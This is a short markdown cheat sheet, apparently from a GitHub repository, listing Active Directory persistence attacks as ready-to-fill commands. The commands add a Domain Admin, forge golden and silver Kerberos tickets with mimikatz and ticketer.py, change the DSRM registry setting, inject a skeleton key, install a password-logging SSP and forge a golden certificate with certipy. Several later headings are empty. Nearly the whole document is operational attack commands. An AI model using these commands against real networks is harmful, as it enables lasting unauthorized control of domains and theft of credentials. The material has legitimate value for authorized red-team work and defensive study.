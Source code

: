 # Persistence

## ADD DA
- `net group "domain admins" myuser /add /domain`

## Golden ticket
- `ticketer.py -aesKey <aeskey> -domain-sid <domain_sid> -domain <domain> <anyuser>`
- `mimikatz "kerberos::golden /user:<admin_user> /domain:<domain> /sid:<domain-sid>/aes256:<krbtgt_aes256> /ptt"`

## Silver Ticket
- `mimikatz "kerberos::golden /sid:<current_user_sid> /domain:<domain-sid> /target:<target_server> /service:<target_service> /aes256:<computer_aes256_key> /user:<any_user> /ptt"`
- `ticketer.py -nthash <machine_nt_hash> -domain-sid <domain_sid> -domain <domain> <anyuser>`

## Directory Service Restore Mode (DSRM)
- `PowerShell New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`

## Skeleton Key
- `mimikatz "privilege::debug" "misc::skeleton" "exit" #password is mimikatz`

## Custom SSP
- `mimikatz "privilege::debug" "misc::memssp" "exit"`
  - C:\Windows\System32\kiwissp.log

## Golden certificate
- `certipy ca -backup -ca '<ca_name>' -username <user>@<domain> -hashes <hash>`
  - `certipy forge -ca-pfx <ca_private_key> -upn <user>@<domain> -subject 'CN=<user>,CN=Users,DC=<CORP>,DC=<LOCAL>`

## Diamond ticket

## Saphire Ticket

## DC shadow

## ACL manipulation

## ...